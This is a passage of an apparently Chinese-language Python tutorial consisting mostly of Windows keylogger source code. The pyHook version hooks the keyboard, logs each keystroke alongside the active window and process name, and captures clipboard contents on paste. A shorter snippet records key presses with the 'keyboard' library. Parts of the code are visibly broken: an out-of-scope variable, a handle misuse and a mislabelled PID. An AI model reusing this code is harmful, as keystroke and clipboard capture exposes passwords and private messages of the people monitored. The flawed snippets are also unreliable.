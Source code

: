 ```python
    process_id = "%d" % pid.value # 获得进程 PID
    executable = create_string_buffer(b"\x00" * 512)
    h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
    psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512) # 获得进程名
    window_title = create_string_buffer(b"\x00" * 512)
    length = user32.GetWindowTextA(hwnd, byref(window_title), 512) # 获得窗口名
    current_window = window_title.raw.decode('utf-8', errors='replace')
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

def key_event(event):
    global current_window
    if event.WindowName != current_window:
        current_window = event.WindowName
        get_current_process()
        print()
        print("[ PID: %s - %s - %s ]" % (current_window, executable.value.decode(), current_window))
        print()
    if event.Ascii > 32 and event.Ascii < 127:
        print(chr(event.Ascii), end='')
    else:
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print("[PASTE]-%s" % pasted_value)
        else:
            print("[%s]" % event.Key)
    return True

def key_logger():
    hooker = pyHook.HookManager()
    hooker.KeyDown = key_event
    hooker.HookKeyboard()
    pythoncom.PumpMessages()

if __name__ == '__main__':
    key_logger()
```

测试按键:
![img:pyhook](https://i.imgur.com/YrvQSNJ.png)


使用keyboard 库:
```python
import keyboard
from typing import List

def recorder():
    recorded: List[keyboard.KeyboardEvent] = []
    def callback(event: keyboard.KeyboardEvent):
        if event.name == 'esc':
            keyboard.unhook(callback) # 停止监听键盘事件
        else:
            recorded.append(event)
    keyboard.on_press(callback)
    # 循环监听键盘事件, 直到按下 Enter 键后退出循环
    while True:
        if keyboard.is_pressed('esc'):
            break
    recorded = [e.name for e in recorded]
    print("The recorder: ", recorded)
```